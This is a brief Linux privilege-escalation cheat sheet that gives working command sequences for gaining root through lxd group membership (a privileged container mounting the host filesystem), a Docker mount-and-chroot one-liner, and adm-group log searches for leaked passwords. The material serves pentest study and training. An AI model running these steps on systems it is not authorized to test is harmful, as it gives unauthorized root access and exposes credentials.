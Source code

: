 ### LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`. Let's confirm group membership and use these rights to escalate to root.
```bash
devops@NIX02:~$ id
uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

```bash
unzip alpine.zip 
```

```bash
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

```bash
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
```

### Docker
```bash
docker ps
docker run -v /:/mnt --rm -it bash chroot /mnt sh
docker-inspect {{.Config}} <id>
```

### Disk
[This article](https://www.hackingarticles.in/disk-group-privilege-escalation/) :D

### ADM
The adm group is used in Linux for system monitoring tasks. Members of this group can read many log files in `/var/log`, and can use xconsole. Other users cron jobs can be viewed

This could be exploited as confidential information such as user passwords can sometimes end up in certain application or system logs.

```bash
find /var/log/ -group adm
```

```bash
aureport --tty | less
```